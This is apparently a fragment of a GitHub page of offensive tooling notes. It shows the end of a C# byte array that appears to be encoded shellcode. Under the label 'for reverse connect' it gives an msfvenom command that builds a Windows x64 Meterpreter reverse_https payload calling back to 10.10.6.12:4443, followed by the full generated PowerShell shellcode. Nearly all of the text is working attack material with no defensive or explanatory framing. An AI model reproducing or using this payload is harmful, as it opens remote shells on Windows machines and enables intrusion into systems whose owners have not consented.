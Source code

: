 ```csharp
0x53,0xb7,0x47,0x55,0x1a,0xd5,0x4d,0xa3,0xdb,0x1a,0xd0,0xd9,0xe2,0x11,0x44,
0x93,0xda,0x8e,0x71,0x6d,0xda,0x50,0x06,0xde,0x3f,0xbe,0xd4,0x21,0xfa,0x69,
0xdd,0xca,0x5f,0x3d,0xd1,0x3c,0x62,0x1d,0xd5,0xf4,0x5a,0x3d,0x9d,0x50,0x6f,
0x97,0x45,0x8e,0x52,0xb7,0x41,0x59,0xa0,0x18,0x8d,0xda,0x1a,0x66,0xd0,0x40,
0x6a,0x44,0x5b,0xcb,0x41,0xf7,0xc9,0x59,0x72,0x5d,0x5f,0xda,0x98,0x5a,0xb1,
0x59,0x79,0xe3,0xe5,0xca,0x5a,0xef,0xcb,0x50,0xa0,0x0e,0xec,0xc5,0xe4,0x49,
0x6e,0x45,0x63,0xa6,0x04,0x92,0x1b,0xb6,0x91,0x18,0x2b,0x1c,0x4d,0x1f,0x96,
0xb7,0x90,0x18,0x2b,0x5d,0xbf,0xa3,0x90,0xd9,0x16,0xe7,0xfe,0xa7,0xf5,0x27,
0xb9,0xe0,0xd0,0xa2,0x8d,0x89,0xb8,0x0f,0xe4,0x63,0xd9,0x9b,0xef,0x34,0x39,
0x94,0x67,0xbc,0x11,0xe3,0xcb,0x69,0x00,0x29,0x5c,0xa5,0xe3,0x77,0x41,0x1c,
0x5c,0xd3,0x92,0x6c,0x6e,0xcd,0x48,0x7d,0x69,0xf1,0x35,0xd3,0xe9,0x7d,0x2b,
0x1c,0x05,0x92,0x1b };
```


for reverse connect

```ps1
└─# msfvenom -a x64 -p windows/x64/meterpreter/reverse_https LHOST=10.10.6.12 LPORT=4443 -f powershell                    
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 607 bytes
Final size of powershell file: 2960 bytes
[Byte[]] $buf = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x51,0x48,0x8b,0x52,0x20,0x56,0x48,0xf,0xb7,0x4a,0x4a,0x48,0x8b,0x72,0x50,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x48,0x8b,0x52,0x20,0x41,0x51,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x66,0x81,0x78,0x18,0xb,0x2,0xf,0x85,0x72,0x0,0x0,0x0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x8b,0x48,0x18,0x50,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x4d,0x31,0xc9,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x48,0x31,0xc0,0x41,0xc1,0xc9,0xd,0xac,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x41,0x58,0x41,0x58,0x48,0x1,0xd0,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x4b,0xff,0xff,0xff,0x5d,0x48,0x31,0xdb,0x53,0x49,0xbe,0x77,0x69,0x6e,0x69,0x6e,0x65,0x74,0x0,0x41,0x56,0x48,0x89,0xe1,0x49,0xc7,0xc2,0x4c,0x77,0x26,0x7,0xff,0xd5,0x53,0x53,0x48,0x89,0xe1,0x53,0x5a,0x4d,0x31,0xc0,0x4d,0x31,0xc9,0x53,0x53,0x49,0xba,0x3a,0x56,0x79,0xa7,0x0,0x0,0x0,0x0,0xff,0xd5,0xe8,0xb,0x0,0x0,0x0,0x31,0x30,0x2e,0x31,0x30,0x2e,0x36,0x2e,0x31,0x32,0x0,0x5a,0x48,0x89,0xc1,0x49,0xc7,0xc0,0x5b,0x11,0x0,0x0,0x4d,0x31,0xc9,0x53,0x53,0x6a,0x3,0x53,0x49,0xba,0x57,0x89,0x9f,0xc6,0x0,0x0,0x0,0x0,0xff,0xd5,0xe8,0x39,0x0,0x0,0x0,0x2f,0x53,0x68,0x48,0x69,0x46,0x41,0x58,0x74,0x78,0x78,0x75,0x38,0x53,0x72,0x31,0x49,0x33,0x6f,0x56,0x59,0x68,0x41,0x63,0x79,0x4a,0x62,0x4d,0x4f,0x4c,0x6f,0x4f,0x49,0x44,0x72,0x6b,0x73,0x57,0x6e,0x58,0x6e,0x46,0x70,0x61,0x6d,0x73,0x54,0x78,0x59,0x4f,0x64,0x36,0x49,0x30,0x48,0x6b,0x0,0x48,0x89,0xc1,0x53,0x5a,0x41,0x58,0x4d,0x31,0xc9,0x53,0x48,0xb8,0x0,0x32,0xa8,0x84,0x0,0x0,0x0,0x0,0x50,0x53,0x53,0x49,0xc7,0xc2,0xeb,0x55,0x2e,0x3b,0xff,0xd5,0x48,0x89,0xc6,0x6a,0xa,0x5f,0x48,0x89,0xf1,0x6a,0x1f,0x5a,0x52,0x68,0x80,0x33,0x0,0x0,0x49,0x89,0xe0,0x6a,0x4,0x41,0x59,0x49,0xba,0x75,0x46,0x9e,0x86,0x0,0x0,0x0,0x0,0xff,0xd5,0x4d,0x31,0xc0,0x53,0x5a,0x48,0x89,0xf1,0x4d,0x31,0xc9,0x4d,0x31,0xc9,0x53,0x53,0x49,0xc7,0xc2,0x2d,0x6,0x18,0x7b,0xff,0xd5,0x85,0xc0,0x75,0x1f,0x48,0xc7,0xc1,0x88,0x13,0x0,0x0,0x49,0xba,0x44,0xf0,0x35,0xe0,0x0,0x0,0x0,0x0,0xff,0xd5,0x48,0xff,0xcf,0x74,0x2,0xeb,0xaa,0xe8,0x55,0x0,0x0,0x0,0x53,0x59,0x6a,0x40,0x5a,0x49,0x89,0xd1,0xc1,0xe2,0x10,0x49,0xc7,0xc0,0x0,0x10,0x0,0x0,0x49,0xba,0x58,0xa4,0x53,0xe5,0x0,0x0,0x0,0x0,0xff,0xd5,0x48,0x93,0x53,0x53,0x48,0x89,0xe7,0x48,0x89,0xf1,0x48,0x89,0xda,0x49,0xc7,0xc0,0x0,0x20,0x0,0x0,0x49,0x89,0xf9,0x49,0xba,0x12,0x96,0x89,0xe2,0x0,0x0,0x0,0x0,0xff,0xd5,0x48,0x83,0xc4,0x20,0x85,0xc0,0x74,0xb2,0x66,0x8b,0x7,0x48,0x1,0xc3,0x85,0xc0,0x75,0xd2,0x58,0xc3,0x58,0x6a,0x0,0x59,0x49,0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,0xd5 

```
